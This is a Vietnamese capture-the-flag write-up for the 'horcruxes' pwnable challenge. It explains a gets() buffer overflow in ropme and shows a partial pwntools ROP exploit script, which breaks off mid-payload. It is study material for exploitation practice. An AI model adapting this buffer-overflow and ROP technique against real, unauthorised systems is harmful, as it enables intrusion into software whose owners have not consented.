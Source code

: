 Ở hàm **ropme**, có lỗi BOF ở hàm **gets(s)**. Kết hợp với tên hàm là rop, nên mình dự đoán bài này dùng kỹ thuật ROP để đọc các giá trị của các biến **a, b, c, d, e, f, g** rồi tính ra **sum**.

> Ban đầu, mình nghĩ sẽ BOF để quay lại hàm **init_ABCDEFG**, sau đó rop đến địa chỉ của một hàm **puts** để in ra giá trị của **sum** cho tiết kiệm thời gian. Tuy nhiên, địa chỉ ở hàm **init_ABCDEFG** đều có dạng `080A****`.
    - Hàm **gets** sẽ lấy chuỗi nhập vào từ stdin cho đến ghi gặp ký tự xuống dòng **"\n"**, hay là **"0x0a"**
    - Do vậy nếu quay về hàm **init_ABCDEFG** thì sẽ chỉ nhận được 2 byte cuối địa chỉ thay vì toàn bộ địa chỉ
    => Điều này là không thể
    
**Exploit code**

```python
from pwn import *
import re
info = lambda msg: log.info(msg)
s = lambda p, data: p.send(data)
sa = lambda p, msg, data: p.sendafter(msg, data)
sl = lambda p, data: p.sendline(data)
sla = lambda p, msg, data: p.sendlineafter(msg, data)
sn = lambda p, num: p.send(str(num).encode())
sna = lambda p, msg, num: p.sendafter(msg, str(num).encode())
sln = lambda p, num: p.sendline(str(num).encode())
slna = lambda p, msg, num: p.sendlineafter(msg, str(num).encode())

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
def GDB(p):
   if not args.REMOTE:
       gdb.attach(p, gdbscript='''
       b*0x080a0107

       c
       ''')
       input()

exe = "./horcruxes"
elf = context.binary = ELF(exe, checksec=False)

io = start()

sla(io, b"Menu:", b"1")
call_ropme = 0x0809FFFC

padding = 120

payload = flat(
    b"A" * padding,
    p32(elf.sym.A),
    p32(elf.sym.B),
    p32(elf.sym.C),
    p32(elf.sym.D),
    p32(elf.sym.E),
```